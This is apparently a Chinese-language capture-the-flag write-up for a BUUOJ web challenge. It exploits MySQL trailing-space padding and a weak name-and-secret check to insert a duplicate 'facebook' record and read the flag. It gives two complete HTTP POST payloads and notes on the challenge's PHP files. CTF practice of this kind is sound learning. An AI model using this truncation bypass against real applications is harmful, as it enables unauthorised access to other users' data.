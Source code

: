 - # mysql的缺陷
	- 如果插入的字符串不够长，mysql会在尾部添加空格。
	- 也就是说，如果我们插入一条开头为`facebook`，末尾有很多空格的记录，就可以伪装成facebook的记录
- # view.php的缺陷
	- 如果数据库中有两条名字相同的记录，我们可以通过提交第二条记录的secret绕过检测，读取第一条记录
- # 完整思路
	- 利用mysql的缺陷插入另外一条facebook记录
	- 利用view.php的检查缺陷读取facebook记录，拿到flag
- # payload
	- 第一次
		- ```http
		  POST /add.php HTTP/1.1
		  Host: 05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Length: 108
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Referer: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81/add.php
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  name=facebook++++++++++++++++++++++++++++++++++++++++++++++++++++++++&secret=FacebookFacebook1&description=1
		  ```
	- 第二次
		- ```http
		  POST /view.php HTTP/1.1
		  Host: 05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Length: 38
		  Cache-Control: max-age=0
		  Upgrade-Insecure-Requests: 1
		  Origin: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81
		  Content-Type: application/x-www-form-urlencoded
		  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.5563.111 Safari/537.36
		  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
		  Referer: http://05a44e32-81cf-4aef-ba17-faf4ec5f9e3c.node4.buuoj.cn:81/view.php
		  Accept-Encoding: gzip, deflate
		  Accept-Language: zh-CN,zh;q=0.9
		  Connection: close
		  
		  name=facebook&secret=FacebookFacebook1
		  ```
- # 施工记录
	- `db.php`
		- ```sql
		  INSERT INTO products VALUES('facebook', sha256(....), 'FLAG_HERE');
		  INSERT INTO products VALUES('messenger', sha256(....), ....);
		  INSERT INTO products VALUES('instagram', sha256(....), ....);
		  INSERT INTO products VALUES('whatsapp', sha256(....), ....);
		  INSERT INTO products VALUES('oculus-rift', sha256(....), ....);
		  ```
		- 提示flag在数据库中，数据库查询做了参数化查询，无法SQL注入
		- 需要触发`get_product("facebook")`才可以获取flag
		- `check_name_secret`只要有名字相同的记录就可以绕过
		- 所有函数都没有检查是否是字符串
			- 传入数组会变成`Array`字符串
	- `add.php`
		- 含有`get_product`触发点，但不会返回结果
		- 只要能绕过`get_product`就可以插入同名记录
			- ^^字符串截断？^^
	- `view.php`
		- 含有`get_product`触发点
			- 触发条件是通过`check_name_secret`
	- `index.php`
		- 会显示数据库中的前5个结果
		- facebook在最下面
-
-
-